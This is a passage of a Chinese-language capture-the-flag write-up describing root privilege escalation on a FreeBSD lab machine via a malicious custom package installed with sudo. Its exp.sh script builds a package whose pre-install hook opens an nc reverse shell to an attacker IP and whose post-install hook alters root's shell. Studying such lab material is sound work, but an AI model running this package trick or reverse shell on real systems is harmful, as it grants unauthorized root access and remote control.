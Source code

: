 获取user flag

![image-20210429175031706](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210429175031706.png)



## 提权

http://lastsummer.de/creating-custom-packages-on-freebsd/

运行它生成package，之后sudo安装这个包即可，注意这里使用-U(–no-repo-update)参数取消从仓库中升级

自定义pkg，安装的时候会执行里面的命令，得到root shell

![image-20210429181005063](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210429181005063.png)



sudo pkg install --no-repo-update mypackage-1.0_5.txz

成功返回root权限，拿到flag

![image-20210429181825914](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210429181825914.png)

![image-20210429181917465](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210429181917465.png)



exp.sh

```
#!/bin/sh

STAGEDIR=/tmp/package
rm -rf ${STAGEDIR}
mkdir -p ${STAGEDIR}
cat >> ${STAGEDIR}/+PRE_INSTALL <<EOF
echo "Resetting root shell"
rm /tmp/a;mkfifo /tmp/a;cat /tmp/a|/bin/sh -i 2>&1|nc 10.10.14.135 4444 >/tmp/a
EOF
cat >> ${STAGEDIR}/+POST_INSTALL <<EOF
echo "Registering root shell"
pw usermod -n root -s /bin/sh
EOF
cat >> ${STAGEDIR}/+MANIFEST <<EOF
name: mypackage
version: "1.0_5"
origin: sysutils/mypackage
comment: "automates stuff"
desc: "automates tasks which can also be undone later"
maintainer: john@doe.it
www: https://doe.it
prefix: /
EOF
pkg create -m ${STAGEDIR}/ -r ${STAGEDIR}/ -o .
```

